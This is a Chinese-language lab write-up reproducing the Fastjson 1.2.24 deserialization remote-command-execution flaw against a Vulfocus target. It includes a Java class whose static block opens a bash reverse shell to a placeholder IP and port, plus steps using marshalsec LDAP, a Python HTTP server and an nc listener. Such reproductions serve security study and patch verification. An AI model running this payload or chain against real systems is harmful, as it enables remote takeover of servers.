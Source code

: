 # Fastjson-1.2.24反序列化导致任意命令执行漏洞 by [fengyehack](https://github.com/fengyehack) 

## 漏洞描述

FastJson库是Java的一个Json库，其作用是将Java对象转换成json数据来表示，也可以将json数据转换成Java对象，使用非常方便，号称是执行速度最快的库。

在1.2.24版本的Fastjson出现了一个反序列化的漏洞，fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

## 漏洞影响版本

fastjson <= 1.2.24

## 漏洞复现

启动 Vulfocus 靶场的 fastjson1.2.24-rce

![](./1.png)



修改 java 恶意类代码保存为 TouchFile.java

```java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
   static {
       try {
          Runtime r = Runtime.getRuntime();
          Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/IP/1888 0>&1"});
          p.waitFor();
       } catch (Exception e) {
           // do nothing
       }
   }
}
```



![](./2.png)



编译恶意类代码 javac TouchFile.java 生成 TouchFile.class

![](./3.png)

上传编译好的恶意类到服务器

![](./4.png)

然后使用 python -m SimpleHTTPServer 快速搭建http服务

![](./5.png)

使用 marshalsec 开启 ldap 服务

![](./6.png)

nc监听

![](./7.png)

访问 FastJson 页面，使用 Burp 抓包，改为 POST 请求，使用 exp 反弹 shell

![](./8.png)

可以看到请求成功，加载了恶意类

![](./9.png)

![](./10.png)

成功拿到 shell

![](./11.png)

